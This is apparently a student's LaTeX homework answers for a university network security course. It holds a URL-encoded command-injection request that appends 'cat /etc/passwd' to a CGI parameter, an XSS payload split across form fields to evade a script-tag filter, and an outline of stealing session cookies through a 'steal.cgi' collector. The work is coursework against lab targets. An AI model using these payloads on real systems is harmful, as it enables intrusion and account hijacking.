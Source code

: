 3\documentclass[letterpaper]{article}
\title{CIS 551, Computing and Network Security, Spring 2012}
\author{Chris Imbriano and Dustin Zelle}
\date{April 24, 2011}
\begin{document}
\maketitle

\begin{enumerate}
\item[A.] http://192.168.91.128/cgi-bin/web-ls.cgi?dir=html\%20\%3E\%20\%2Fdev\%2Fnull\%3Bcat\%20\%2Fetc\%2Fpasswd

\item[B.]
Name: $<$script type="text/javascript"$>$/*\\
Street 1: */alert/*\\
Street 2: */("Javascript successfully injected!");/*\\
City: */$<$/script $>$\\
State:\\
Zip Code:

\begin{enumerate}
\item "<script>" and "</script>" would be removed if found exactly like this.  Replacing them with Name and City fields avoided detection.
\item there was a 45 character limit so the alert command needed to be separarted on two lines
\item Each field had "</br>" inserted so those tags needed to be comments in the javascript
\end{enumerate}


\item[C.]

\begin{enumerate}
\item Same problem searching for literally "<script>" or "</script>"
\item 
\end{enumerate}

1. User logs into service and forgets to log out
2. User visits service-attack.html
3. Service-attack.html redirects to service with the injected javascript
4. The injected javascript collects the cookie and posts it to a form in steal.cgi
5. steal.cgi records the cookie information for later use




\end{enumerate}
\end{document}
